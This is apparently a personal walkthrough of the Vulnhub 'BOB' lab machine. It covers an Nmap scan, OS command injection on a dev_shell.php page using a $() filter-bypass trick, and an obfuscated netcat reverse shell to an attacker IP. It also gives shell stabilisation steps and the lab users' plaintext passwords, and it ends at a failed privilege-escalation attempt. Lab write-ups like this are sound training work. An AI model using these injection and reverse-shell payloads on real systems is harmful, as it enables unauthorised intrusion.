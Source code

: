 #os-command-injection 
# Nmap:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
```
# PORT 80
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926204823.png]]
### dev_shell.php:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926204946.png]]
os-command injection -> same thing happened in :
[[CTF/Cyber-Heroines/Cyber Heriones|Cyber Heriones]] ctf 
```
l$()s
```
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926205147.png]]
ping also working:
```
pin$()g 19$()2.168.211.130 -c 4
```
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926205621.png]]
# WE ARE IN BABY!!!
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926205750.png]]
```
n$()c 19$()2.168.211.130 4$()43 -e /bi$()n/ba$()sh 
```

we stabilize the shell :
***
step 1:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
THERE ARE 4 USERS:
* elliot
* jc
* bob
* seb
### user elliot:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926210716.png]]

### User bob:
In the home folder of this user:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926211216.png]]
seb:`T1tanium_Pa$$word_Hack3rs_Fear_M3`
jc:`Qwerty`

the user jc had:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926211634.png]]
they ask us for the identity to use:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926211740.png]]
tried gtfo'ing inside but didn't work:
![[walkthroughs/Vulnhub/BOB/IMG/Pasted image 20230926211905.png]]